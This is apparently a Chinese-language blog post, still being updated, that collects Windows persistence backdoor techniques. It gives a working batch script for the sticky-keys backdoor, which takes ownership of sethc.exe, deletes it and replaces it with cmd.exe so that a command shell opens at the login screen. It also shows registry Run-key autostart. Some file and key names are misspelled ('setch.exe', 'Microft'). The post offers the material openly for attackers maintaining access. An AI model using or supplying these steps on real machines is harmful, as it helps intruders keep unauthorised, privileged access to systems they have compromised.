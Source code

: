 ```yaml
---
layout: post
title: 持久化后门维持-Windows篇(updating)
---
```


> 文章长期更新，用来统计收集后门维持的各种方法。



## 0x01 shift后门(替换系统文件)

通过修改`setch.exe`来达到持久化后门

在低版本的windows中，我们可以直接把 *C:\Windows\System32\\* 下 *setch.exe*

替换成我们的后门程序，在登陆界面按5次shift即可出现cmd

![0x01](https://tva1.sinaimg.cn/large/00831rSTly1gcxuu947nsj31500dmabt.jpg)

![0x02](https://tva1.sinaimg.cn/large/00831rSTly1gcy1rc9ccsj314k0lq411.jpg)



![0x03](https://tva1.sinaimg.cn/large/00831rSTly1gcxwxpnwzoj30hy0i6ab8.jpg)

```bash
@echo off
c:
cd\
cd Windows\System32
icacls sethc.exe /grant Administrator:f
del sethc.exe 
copy cmd.exe sethc.exe
pause&&exit
```

保存为.bat文件运行即可留下shift后门

---

###  0x02 注册表自启动

> 最常见的在指定键值添加一个新的键值类型为REG_SZ,数据项中添写需要运行程序的路径即可以启动，此类操作一些较为敏感容易被本地AV拦截，目前也是较为常见的一种方式。

```HKEY_LOCAL_MACHINE\SOFTWARE\Microft\windows\currentversion\run```

![0x04](https://tva1.sinaimg.cn/large/00831rSTly1gcy2iagbjuj317q0l4n3h.jpg)

<img src="https://tva1.sinaimg.cn/large/00831rSTly1gcy2lfca5ej32ls0n617q.jpg" alt="0x04" style="zoom:150%;" />



